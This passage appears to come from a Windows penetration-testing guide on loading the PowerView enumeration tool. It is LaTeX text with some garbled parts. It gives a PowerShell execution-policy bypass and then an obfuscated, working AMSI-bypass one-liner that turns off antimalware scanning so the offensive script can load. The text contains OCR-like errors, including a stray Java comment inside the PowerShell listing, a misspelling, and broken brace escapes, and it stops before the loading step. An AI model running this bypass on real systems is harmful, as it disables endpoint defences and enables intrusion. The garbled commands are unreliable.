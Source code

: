 \subsection{Using PowerView}
From a PowerShell session, elevate administrator, and run the following commands:
\begin{lstlisting}
// Hello.java
PS C:\> cd \<location of where PowerView is saved>
PS C:\MyDrive\MyTools> powershell -ep bypass

Windpws PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
\end{lstlisting}
Next, we need to bypass AMSI as PowerView may be flagged as malicious:
\verb|PS C:\MyDrive\MyTools>S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "\{1\}{0\}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe" ( "\{6\}{3\}{1\}{4\}{2\}{0\}{5\}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) ."g`etf`iElD"( ( "\{0\}{2\}{1\}" -f('a'+'msi'),'d',(('I'+'nitF'+'aile') ),( "\{2\}{4\}{0\}{1\}{3\}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( \${n`ULl\},\${t`RuE\}}}}|
Now, load the PowerView script using dot sourcing as such:
